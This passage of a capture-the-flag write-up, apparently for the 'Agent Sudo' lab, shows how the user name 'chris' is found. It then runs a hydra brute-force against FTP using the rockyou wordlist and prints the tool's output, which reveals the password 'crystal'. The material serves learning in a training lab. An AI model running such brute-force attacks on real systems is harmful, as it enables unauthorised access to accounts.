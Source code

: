 Refreshing page we see agent name:

<figure><img src=".gitbook/assets/Schermata del 2023-07-03 00-13-02.png" alt=""><figcaption><p><a href="http://10.10.89.63/agent_C_attention.php">http://10.10.89.63/agent_C_attention.php</a></p></figcaption></figure>

{% hint style="info" %}
chris
{% endhint %}

### Task 4 - Hash cracking and brute-force

#### 4.1 - FTP password

We knwo a username: chris, then, we can use hydra to find psw:\


```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt agent_sudo.thm ftp
```

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-02 18:24:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://agent_sudo.thm:21/
[STATUS] 244.00 tries/min, 244 tries in 00:01h, 14344155 to do in 979:48h, 16 active
[21][ftp] host: agent_sudo.thm   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
```

{% hint style="info" %}
crystal
{% endhint %}

chris::crystal

#### 4.2 - Zip file password

It's time to access with ftp credentials:\
